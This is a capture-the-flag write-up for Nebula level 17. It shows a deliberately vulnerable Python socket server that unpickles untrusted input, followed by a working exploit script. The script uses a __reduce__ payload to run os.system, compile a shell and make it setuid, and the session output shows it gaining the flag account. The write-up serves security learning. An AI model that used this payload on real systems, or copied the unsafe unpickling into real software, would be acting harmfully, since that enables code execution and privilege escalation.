 > There is a python script listening on port 10007 that contains a vulnerability.

With the description we are provided with the source code of a small Python program:

```perl
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
```

With this level, it was immediately obvious that user input was being used to unpickle. This is dangerous as user supplied code could be executed when the unpickle occurs. So, my plan was to write a simple class with a `__reduce__` method to pickle and send that over the socket that this code is listening on.

So, to solve level17:

```bash
level17@nebula:/var/tmp/flag17-prep$ cat sploit.py
from netcat import Netcat
import pickle
import os

command = """gcc /var/tmp/shell.c -o /var/tmp/flag17; chmod 4777 /var/tmp/flag17"""

# setup the pickle
class DoCmd(object):
    def __reduce__(self):
        return (os.system, ('{cmd}'.format(cmd = command),))

nc =  Netcat('127.0.0.1', 10007)
nc.read()
nc.write(pickle.dumps(DoCmd()))
nc.close()

level17@nebula:/var/tmp/flag17-prep$ python sploit.py
level17@nebula:/var/tmp/flag17-prep$ /var/tmp/flag17
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
